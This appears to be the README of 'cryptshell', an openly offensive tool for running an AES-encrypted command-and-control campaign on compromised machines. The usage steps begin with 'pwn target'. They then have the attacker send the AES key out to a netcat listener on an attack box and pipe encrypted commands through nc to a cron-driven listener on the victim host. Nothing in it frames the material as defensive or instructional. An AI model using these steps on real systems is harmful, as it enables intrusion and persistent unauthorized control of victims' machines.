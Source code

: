 # cryptshell
AES Encrypted C2 Campaign Management

## usage
- pwn target
- configure the following variables in crypt shell
	- RHOST (the IP of your C2 server that you will be sending the commands from)
	- RPORT (the port on your C2 server that you want cryptshell to send the AES key to)
	- LPORT (the port you want the target to listen on)
- setup listener on attack box (to recieve key): nc -lnvp $RPORT > aes.key
- run cryptshell on target and kill the connection after the key is transferred
- pipe c2 commands through aescrypt and a socket to your target (the listener and decrypter in on a cron): echo "touch tmp" | aescrypt -e -k aes.key - | nc target $LPORT
	- since it runs on a cron, you can only send one payload per cron cycle, so I suggest you prepare scripted one liners
	- you will know if the commands were sent if you run the command and the connection hangs, wait a few seconds and force quit it
